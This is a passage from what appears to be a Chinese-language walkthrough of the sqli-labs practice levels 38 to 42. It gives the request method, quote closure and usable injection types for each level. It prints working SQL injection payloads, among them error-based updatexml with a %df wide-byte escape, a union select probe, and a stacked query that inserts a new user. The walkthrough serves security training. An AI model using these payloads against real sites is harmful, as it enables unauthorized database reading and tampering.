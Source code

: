     uname=admin%df' and updatexml(0,concat(0x7e,version()),1)#&passwd=aa&submit=Submit
    
        

## 叠加注入

## less-38

Less-38-
堆叠注入原因：mysqli\_multi\_query 函数用于执行一个 SQL 语句，或者多个使用分号分隔的 SQL 语句。这个就是堆叠注入产生的原因，因为本身就支持多个 SQL 语句。

一般

    请求方式 get
    
    闭合方式 '
    
    注入方式 联合，报错，布尔，延时，堆叠
    
    攻击测试 ?id=-1' union select 1,2,version()--+
    
        

我们也可以使用以下payload来创建一个新用户

?id=1’;insert into users(username,password) values (‘good’,‘good’);

可以在数据库中查看。

## Less-39

与38关类似，区别在于闭合方式为 数字型注入

请求方式 get

闭合方式 数字型

注入方式 联合，报错，布尔，延时，堆叠

## Less-40

与38关类似，区别在于闭合方式不同

请求方式 get

闭合方式 ')

注入方式 联合，报错，布尔，延时，堆叠

## Less-41

与39关类似，区别在于没有报错输出，不能使用报错注入

请求方式 get

闭合方式 数字型

注入方式 联合，布尔，延时，堆叠

## less-42
